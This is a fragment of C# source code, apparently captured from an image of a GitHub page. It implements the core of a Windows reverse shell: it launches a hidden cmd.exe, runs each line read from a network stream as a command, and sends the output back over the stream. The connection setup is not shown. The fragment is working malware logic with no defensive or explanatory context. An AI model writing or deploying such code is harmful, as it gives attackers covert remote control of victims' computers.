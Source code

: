 ```csharp
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```
